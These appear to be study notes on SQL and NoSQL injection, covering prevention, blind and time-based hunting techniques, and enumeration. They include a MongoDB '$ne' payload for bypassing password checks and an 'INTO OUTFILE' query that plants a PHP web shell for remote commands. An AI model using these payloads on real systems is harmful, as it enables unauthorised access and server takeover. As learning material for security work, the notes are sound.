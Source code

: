 ### SQL Injections
#
* Similar to XSS, this executes incorrectly filtered or escaped SQL commands to an app's database.
* Leads to authentication bypass, data leaks, tampering and RCE.
* Login prompts are an avenue for these vulnerabilities since you are submitting queries for login information.

### Second-Order SQL Injections
#
* First order injections are when user input is used directly in a SQL query.
* Second order is when you retrieve stored user input from the database.

### Prevention
#
* Prepared statements/Parameterized queries. 
    * These make injections practically impossible by ensuring user input doesn't alter SQL logic.
    * The SQL servers compiles the SQL query before any user input is inserted. You'd define
    the logic first before the input data.
    * Anything that deviates from this logic will be treated as a string that is uncapable of executing.
* Create an allowlist for values. You could allow operators like ORDER BY for example.
* Escaping/Sanitizing.
    * ' and " should be fixed.
    * **Different databases have specific characters.**

### Hunting SQL Injections
#
* Categorized into classic & blind varieties.
* Common technique is to insert a single ' then for errors or odd behavior.
* The ' denotes the end of a query string.
* Introducing or experiencing time delays could be a hint.
* Fuzzing
* **Classic** - SQL queries that are returned directly to the attacker.
#
* **Blind** - Harder to find because the web app doesn't return SQL data or error messages. Also called **Inferential SQL injections**.
* These are normally boolean or time based.
* Boolean testing involves sending test conditions to recieve true/false return values. Infering info.
* Time-based injections rely on response times between different payloads. This is meant more for apps that dont give visual clues.

### NoSQL Injections
#
* Stands for Not-Only SQL. Does not use SQL.
* SQL stores data in tables. NoSQL stores data in key-value pairs and graphs.
* Syntax is database specific:
    * MongoDB: Users.find({username:'vickie',password:'password123'})
    * Replace 'password123' with {$ne: ""}. This searches for a paired value that does equal " ". You can find passwords this way.
    * You can execute JavaScript as well. $where,mapReduce,$accumulator, and $function.
    * Characters like ' , ", ; , \ , () , [] , and {} can be used.
### Prevention
#
* Validators
* Disable server-side JavaScript with --noscripting on the CMD.
* Disable security.javascriptEnabled on the config file.
* **Principle of least priviledge** - only give apps the priviledges they need.

### Enumerating the service
#
* @@version on Microsoft SQL server & MySQL
* v$version for Oracle.

### Gain a web shell
#
* <<meta>? system($_REQUEST['cmd']); ?>
* Create a file onm the server with a nonexistant user:
    * SELECT Password FROM Users WHERE Username='abc'
      UNION SELECT "<? system($_REQUEST['cmd']); ?>"
      INTO OUTFILE "/var/www/html/shell.php"
    * Password is blank, so you can upload that cmd script then visit that scripts URL to execute it.
        * <span>http://www.example.com/shell.php?cmd=COMMAND
